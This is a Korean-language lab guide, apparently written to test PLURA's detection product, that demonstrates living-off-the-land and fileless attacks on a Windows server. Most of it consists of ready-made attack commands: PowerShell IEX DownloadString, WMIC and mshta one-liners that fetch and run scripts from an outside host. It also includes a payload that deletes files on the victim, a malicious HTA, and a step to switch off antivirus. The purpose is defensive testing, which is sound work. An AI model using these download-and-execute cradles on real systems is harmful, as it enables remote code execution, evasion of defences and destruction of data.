

# 테스트 환경 구축

1. **공격 서버**
   - 웹 서버가 구축되어 있어야 합니다.
   
2. **MALSCRIPT**
   - 공격 서버의 웹루트 디렉터리 내에 위치해야 합니다. (`/var/www/html/`)
   - 침투한 파일은 웹 요청 본문으로 전달하여 웹셸(Web Shell)로 바꿀 수 있습니다.

3. **MALSCRIPT 공격문의 경로**
   - 피해 서버에서 삭제할 파일의 경로를 입력해야 합니다.

4. **피해 서버**
   - PLURA 에이전트가 설치되어 있어야 합니다.
   - 삭제할 파일 (`C:\Program Files\important-file.txt`)이 존재해야 합니다.
   - ※ 해당 경로에 파일이 존재하지 않을 경우, 공격 성공 여부를 확인할 수 없습니다.

5. **운영 환경**
   - 피해 서버는 Windows 서버로 구성해야 합니다.
   - Windows 실시간 보호 및 V3와 같은 백신 프로그램은 중지해야 합니다.

6. **명령 실행**
   - 피해 서버에서 `cmd` 또는 `PowerShell`을 관리자 권한으로 실행하여 명령문을 수행합니다.

---

# LOL 공격 및 파일리스 공격이란

### LOL (Living Off the Land) 공격
- 시스템에 설치된 합법적인 바이너리, DLL 등의 도구를 이용하여 공격하는 방식.

### 파일리스(Fileless) 공격
- 공격 파일이 피해 서버의 디스크에 저장되지 않고, 메모리에서 직접 실행되는 공격 기법.

다음은 LOL을 활용한 파일리스 공격 방법입니다. 해당 공격 수행 후 PLURA에서 탐지 내역을 확인할 수 있습니다.

---

# 공격 시연 방법

우선 침투한 파일은 웹 요청 본문으로 전달하여 웹셸(Web Shell)로 바꿀 수 있습니다. 이 공격 기법은 웹 서버를 통한 추가적인 악성 행위 수행에 활용될 수 있습니다.

👉 [자세히](webshell_attack_steps.md)

## PowerShell (T1059.001)
- **PowerShell을 사용하여 파일리스 공격 수행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Windows Management Instrumentation (T1047)
- **WMIC를 사용하여 원격 명령 실행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`에서 수행:
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Mshta (T1218.005)
- **Mshta를 사용하여 악성 HTA 파일 실행**
- **스크립트:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **공격 성공 시:** 피해 서버에서 "Malicious HTA" 창과 계산기가 실행되며, PLURA에서 탐지 내역 확인 가능.

---

# 주의사항
- **PowerShell, WMIC, Mshta**는 Windows 내 강력한 스크립트 실행 도구로 파일리스 공격을 수행하는 데 자주 사용됩니다.
- 공격자는 디스크에 파일을 저장하지 않고 메모리 내에서 바로 실행하여 탐지 회피를 시도합니다.
- 위 과정을 통해 PLURA의 탐지 기능과 보안 로그를 확인하세요.

---

# 공격 개요 (Mermaid Diagram)


